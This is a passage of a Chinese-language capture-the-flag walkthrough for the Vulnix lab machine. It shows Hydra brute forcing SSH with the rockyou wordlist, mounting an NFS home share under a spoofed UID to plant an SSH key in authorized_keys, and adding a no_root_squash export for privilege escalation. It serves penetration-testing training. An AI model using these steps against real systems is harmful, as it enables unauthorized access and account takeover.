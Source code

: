 ```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.88.146 ssh
```

![](https://www.vulnhub.cn/walkthrough/48/2.webp)

login: `user `

password: `letmein`

![](https://www.vulnhub.cn/walkthrough/48/3.webp)

### authorized_keys

![](https://www.vulnhub.cn/walkthrough/48/4.webp)

查看靶机vulnix用户UID/GID为2008

本地新建vulnix用户，编写UID/GID为2008

![](https://www.vulnhub.cn/walkthrough/48/5.webp)

```
$ sudo mount -t nfs 192.168.88.146:/home/vulnix /tmp/vulnix
$ cp .ssh/id_rsa.pub /tmp 
```

kali切换vulnix用户

![](https://www.vulnhub.cn/walkthrough/48/6.webp)

```
$ su vulnix
$ cd /tmp/vulnix
$ mkdir .ssh
$ cat  /tmp/id_rsa.pub >/tmp/vulnix/.ssh/authorized_keys
```

![](https://www.vulnhub.cn/walkthrough/48/7.webp)

使用密钥登录vulnix用户，登录成功

## 提权

![](https://www.vulnhub.cn/walkthrough/48/8.webp)

添加

```bash
/               *(rw,no_root_squash)
```

![](https://www.vulnhub.cn/walkthrough/48/9.webp)

重启靶机生效
